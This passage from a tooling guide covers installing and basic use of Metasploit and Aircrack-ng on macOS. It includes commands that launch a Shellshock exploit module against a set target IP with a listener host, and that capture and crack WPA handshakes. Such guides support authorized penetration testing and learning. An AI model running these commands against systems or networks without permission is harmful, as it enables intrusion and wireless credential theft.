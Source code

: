 ### Metasploit Framework

Metasploit Framework is a penetration testing platform that enables you to find, exploit, and validate vulnerabilities.

#### Installation
```bash
brew install metasploit
```

#### Basic Usage
```bash
# Start Metasploit console
msfconsole

# Search for exploits
search apache

# Use an exploit
use exploit/multi/http/apache_mod_cgi_bash_env_exec

# Set options
set RHOSTS 192.168.1.1
set LHOST 192.168.1.2

# Run the exploit
exploit
```

#### Configuration Tips
- Initialize the database:
  ```bash
  msfdb init
  ```
- Create workspaces for different projects:
  ```bash
  workspace -a project_name
  ```

## Wireless Tools

### Aircrack-ng

Aircrack-ng is a network software suite consisting of a detector, packet sniffer, WEP and WPA/WPA2-PSK cracker and analysis tool.

#### Installation
```bash
brew install aircrack-ng
```

#### Basic Usage
```bash
# Put interface in monitor mode
sudo airport -z
sudo airport -c[channel] --monitor

# Capture traffic
sudo airodump-ng -c [channel] --bssid [BSSID] -w capture [interface]

# Crack WPA handshake
sudo aircrack-ng -w wordlist.txt capture-01.cap
```
